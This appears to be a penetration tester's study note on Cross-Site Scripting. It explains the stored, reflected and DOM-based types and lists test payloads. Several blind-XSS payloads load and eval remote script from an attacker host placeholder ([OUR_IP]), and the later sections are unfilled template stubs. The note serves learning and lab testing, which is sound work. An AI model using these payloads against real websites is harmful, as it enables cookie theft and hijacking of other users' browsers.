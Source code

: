 # Description

> [_Cross-Site Scripting_](https://owasp.org/www-community/attacks/xss/) (XSS) is a vulnerability that exploits a user's trust in a website by dynamically injecting content into the page rendered by the user's browser.

This takes advantage of improper *sanitization* (one of the most important features of a well defended web application). These are the weak points that an attacker can abuse by injecting and executing malicious code.

**Main Types**

*Stored*: the user input is stored on the website. It usually happens on user profiles, forums, chats and so on were the user content is permanently (or temporarily) stored. Attackers can inject malicious payloads and every user browsing the infected page will be affected. This is one of the most dangerous forms of XSS because exploitation requires no phishing and it can affect many users. XSS on pages that only the attacker's user has the right to browse (e.g. user settings page) are called self-XSS and are considered to have a close to 0 impact since it's theoretically can't affect other users.

*Reflected*: the user input is reflected but not stored. It usually happens on search forms, login pages and pages that reflect content for one response only. When the reflected vulnerable input is in the URI (`http://www.target.com/search.php?keyword=INJECTION`) attackers can craft a malicious URI and send it to the victims hoping they will browse it. This form of XSS usually requires phishing and attackers can be limited in the length of the malicious payload (cf. [this](https://serpstat.com/blog/how-long-should-be-the-page-url-length-for-seo/)).

*DOM-based*: while stored and reflected XSS attacks exploit vulnerabilities in the server-side code, a DOM-based XSS exploits client-side ones (e.g. JavaScript used to help dynamically render a page). DOM-based XSS usually affect user inputs that are temporarily reflected, just like reflected XSS attacks.

# Command Syntax

## Stored

**Basic Payload for Testing**: if it is vulnerable once saved, when we access the website again we should see the code being executed.

```bash
# Text to save to the application.
<script>alert("XSS")</script>

<script>alert(document.cookie)</script>

<script>alert(window.origin)</script>
```

## Reflected

In this case usually we will include the payload in a URL, the most common place for this are the search pages, we can see the example below:

```bash
http://[SERVER_IP]:[PORT]/index.php?task=%3Cscript%3Ealert(document.cookie)%3C/script%3E
```

![Reflected XSS Payload](https://www.emmanuelsolis.com/img/xss01.png)

Reflected XSS Payload

![Reflected XSS Result](https://www.emmanuelsolis.com/img/xss02.png)

Reflected XSS Result

## Blind

A good way to test this is to see if we can retrieve files externally using the JavaScript code, we can use the payloads from PayloadsAllTheThings: [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc).

```bash
<script src=http://[OUR_IP]></script>

'><script src=http://[OUR_IP]></script>

<script>$.getScript("http://[OUR_IP]")</script>

"><script src=http://[OUR_IP]></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
```


# Common Flags / Options

-flag: Description of what this flag does

# Use Cases

When and why you would use this technique?

# Examples

Practical example from a lab machine or HTB.

```sh
example-command -flag target
```

# Related Notes

[[Link to a related atomic note]]

[MOC - Initial Access](../../0%20-%20MOCs/MOC%20-%20Initial%20Access.md)

# References

HackTricks

PayloadsAllTheThings